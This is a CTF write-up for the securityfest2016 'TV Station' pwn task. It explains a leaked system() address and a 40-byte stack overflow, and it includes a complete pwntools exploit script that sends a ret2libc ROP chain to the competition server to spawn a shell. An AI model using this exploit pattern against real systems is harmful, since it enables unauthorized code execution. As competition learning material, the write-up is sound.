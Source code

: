 
Hi , this a task from securityfest2016 "TV Station - Pwn (100)"

so here i will talk about my write up in securityfest2016 
i just play for fun so i solved some tasks (web,rev,pwn) and then stop playing because it was boring to play alone 
and change from categorie to another 

so lets start

this task give us a simple menu : 

```
=== TV Station - Control Panel ===
   1) Show uptime
   2) Show current user
   3) Exit
   
```

so the first show us the time 
```
 16:30:32 up 10 days, 14:31,  1 user,  load average: 1.00, 0.99, 0.88
```

and the second run system('id')
but when we reverse the code we get that when we send 4 we get 

```
=== TV Station - Debug Menu ===
[Debug menu] system is @0x7fa4619045f0
[Debug menu] Enter cmd:

```

and here where we start :D

we get the address of system and in the cmd we have buffer overflow but :/ aslr / Nx  : on

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

so what we need is to run system('/bin/sh')

The buffer is expecting 40 bytes. Anything over that will start to write outside 

We need now : 

1. Lib add (nm -D libc-2.19.so | grep __libc_system).
2. Get pop rdi.
3. Cal @add system.
4. Cal @add "/bin/sh"


and our payload will be : "A*40+add_pop_rdi+add_binsh+add_sys"

after some calcule :

we write the code 

```
#!/usr/bin/python
from pwn import *

s = remote("pwn2.securityfest.ctf.rocks", 3000)
b = ""

print s.recvuntil(": ")
s.sendline("4")
s.recvuntil("@0x")

# get system add from the result
system = s.recv(12)
b = int(system,16) - 0x465f0 #0x465f0 from lib

s.recvuntil("cmd:")

#calcule the add of "/bin/sh" and "pop rdi"
binsh = b + 0x17ca63
poprdi = b + 0x22b9a

#generate the payload for 64 bit
payload = ""
payload += "A"*40
payload += p64(poprdi)
payload += p64(binsh)
payload += p64(int(system,16))

s.sendline(payload)

s.interactive()

```


and pwned :D 

![Screenshot](pwn.PNG)
